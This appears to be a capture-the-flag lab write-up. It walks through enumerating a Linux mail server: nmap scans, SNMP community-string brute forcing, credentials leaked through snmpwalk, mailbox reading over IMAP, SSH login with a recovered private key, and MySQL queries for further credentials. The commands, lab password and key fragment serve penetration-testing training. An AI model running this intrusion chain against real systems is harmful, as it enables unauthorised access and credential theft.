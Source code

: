 ```yaml
---

---
```

---

First enumerate services on the target

```bash
sudo nmap -sS -sV --disable-arp-ping -n <target>
```


PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
110/tcp open  pop3     Dovecot pop3d
143/tcp open  imap     Dovecot imapd (Ubuntu)
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp open  ssl/pop3 Dovecot pop3d
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

We can see this server hosts `imap` and `pop3` services and `SSH`. I tested some by connecting with `openssl` but I needed credentials. 

Next I tried an UDP scan to discover more open ports.

```bash
sudo nmap -sU -sV --disable-arp-ping -n <target>
```

It showed me that `SNMP` was running on the target.

I used `onesixtyone` to brute force community strings. 

```bash
onesixtyone -c /opt/useful/seclists/Discovery/SNMP/snmp-onesixtyone.txt <target>
``` 

*Scanning 1 hosts, 3218 communities*
*10.129.146.0 [backup] Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64*

It found the community string `backup`

Then I can use `snmpwalk` to query all the OID's for information.

```bash
snmpwalk -v2c -c backup <target>
```

It found the following credentials in the OID's

`tom`:`NMds732Js2761`

I can use these credentials to work with the `imap` and `pop3` services. I checked for the settings with `curl`. 

```bash
curl -k imaps://<target> --user tom:NMds732Js2761
```

* LIST (\HasNoChildren) "." Notes
* LIST (\HasNoChildren) "." Meetings
* LIST (\HasNoChildren \UnMarked) "." Important
* LIST (\HasNoChildren) "." INBOX

I could see there is a inbox called `Important`. To see whats inside this inbox, I connected to the `imap` service with `openssl`.

```bash
openssl s_client -connect <target>:imaps
```

First we login as tom with his credentials.

```bash
1 LOGIN tom NMds732Js2761
```

Then we select the right inbox.

```bash
1 SELECT INBOX Important
```

Next we fetch the message

```bash
1 FETCH 1 (body[HEADER])

1 FETCH 1 BODY[TEXT] 
```

In this inbox was a message with a private key.

```
-----BEGIN OPENSSH PRIVATE KEY-----                                            
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn                                                                                        
NhAAAAAwEAAQAAAgEA9snuYvJaB/QOnkaAs92nyBKypu73HMxyU9XWTS+UBbY3lVFH0t+F             
[...snip...]
H+alMnPR1boleRUIge8MtQwoC4pFLtMHRWw6yru3tkRbPBtNPDAZjkwF1zXqUBkC0x5c7y                                                                                        
XvSb8cNlUIWdRwAAAAt0b21ATklYSEFSRAECAwQFBg==                                   
-----END OPENSSH PRIVATE KEY-----  
```

I used this private key to SSH to the target.

```bash
ssh -i id_rsa tom@<target>
```

To see what Tom is doing on the system, I checked the `.bash_history` file. I could see Tom was accessing a mysql database. So I also tried to access it with his credentials.

```bash
mysql -u tom -p
```

I listed all the databases that were available on the database and uses the most interesting.

```bash
show databases;
use users;
select * from users where username = 'HTB';
```

This way I got the HTB credentials.